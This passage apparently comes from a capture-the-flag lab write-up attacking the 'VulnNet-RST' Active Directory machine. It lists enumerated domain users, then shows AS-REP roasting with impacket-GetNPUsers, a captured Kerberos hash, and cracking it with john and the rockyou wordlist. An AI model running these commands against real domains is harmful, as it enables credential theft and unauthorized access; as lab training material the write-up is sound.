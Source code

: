 ```bash
  516: VULNNET-RST\Domain Controllers (SidTypeGroup)
  517: VULNNET-RST\Cert Publishers (SidTypeAlias)
  518: VULNNET-RST\Schema Admins (SidTypeGroup)
  519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
  520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
  521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
  522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
  525: VULNNET-RST\Protected Users (SidTypeGroup)
  526: VULNNET-RST\Key Admins (SidTypeGroup)
  527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
  553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
  571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
  572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
  1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
  1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
  1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
  1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
  1105: VULNNET-RST\a-whitehat (SidTypeUser)
  1109: VULNNET-RST\t-skid (SidTypeUser)
  1110: VULNNET-RST\j-goldenhand (SidTypeUser)
  1111: VULNNET-RST\j-leet (SidTypeUser)
```

After compiling a list of valid usernames, I checked for AS-REP roastable accounts using `impacket-GetNPUsers`. Before doing this, I had to add the domain and IP address of the server to my hosts file:
```bash
$ impacket-GetNPUsers vulnnet-rst.local/ -no-pass -usersfile usernames.txt 
  Impacket v0.12.0.dev1 - Copyright 2023 Fortra

  [-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
  $krb5asrep$23$t-skid@VULNNET-RST.LOCAL:34ec00f00abbbfdbbd5aeeac93df9f6a$27880a39e719fbec4072897d4251e3460952594eae70b9f038020fd4d00830c75f58caae7fc92988251936367faab769ad07ecc31c7da570410a0c475edb8651e336088000546c1c436fb7fe7df1eec3cd9257dcf348685e1a90cdb46b42e152a72f86d5839f50f5842500d8df2988cc1a50d2d7114a8a95dc35a3f8a125899110430f27f637d001f7f7f14f29716374d9c6a920d886bb68c8101c00761802201fb7e07c887ff932df0f4377a1bc94e3df8bddf42d3d002386f3e0cda9d1b9b11bf200391850a306e035cba871c8c9c8ce14ed3e848459d69e8f261991ecb208ab7f6a35f2a95b07b65bc98282c1951538ec74f15d92
  [-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Great! Once I obtained a hash value, I attempted to crack it using `john`:
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  Using default input encoding: UTF-8
  Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  t[removed]*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)     
  1g 0:00:00:01 DONE (2025-02-15 07:56) 0.8695g/s 2763Kp/s 2763Kc/s 2763KC/s tk072155167..tj0216044
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
```
